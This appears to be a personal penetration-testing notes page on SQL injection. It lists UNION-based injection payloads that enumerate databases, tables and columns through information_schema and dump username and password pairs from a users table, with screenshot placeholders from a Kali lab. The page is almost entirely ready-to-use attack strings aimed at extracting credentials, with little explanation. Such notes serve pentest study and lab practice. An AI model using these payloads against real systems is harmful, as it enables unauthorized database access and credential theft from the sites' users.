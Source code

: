 # Listing db, table and columns

## Listing databases

' UNION select schema\_name, NULL from information\_schema.schemata-- -

<figure><img src="../../.gitbook/assets/2024-02-15 07_46_48-kali-linux-2022.4-virtualbox-amd64 [Corriendo] - Oracle VM VirtualBox _ 1.png" alt=""><figcaption></figcaption></figure>

The last command dumps all databases, we'll know try to enumerate each one of those DB's till we find some sensitive data like users or passwords.

## Listing tables:

' UNION select table\_name, NULL from information\_schema.tables where table\_schema = 'public'-- -

## Listing columns:

' UNION select NULL, column\_name from information\_schema.columns where table\_schema='DB' and table\_name='table'-- -'

<figure><img src="../../.gitbook/assets/enumerating columns sql.png" alt=""><figcaption></figcaption></figure>

## Listing data:

## Option#1

\
' union select username,password from users-- -

## Option 2

' union select NULL,group\_concat(username,';',password) from users-- -

<figure><img src="../../.gitbook/assets/2024-02-15 13_21_28-.png" alt=""><figcaption></figcaption></figure>
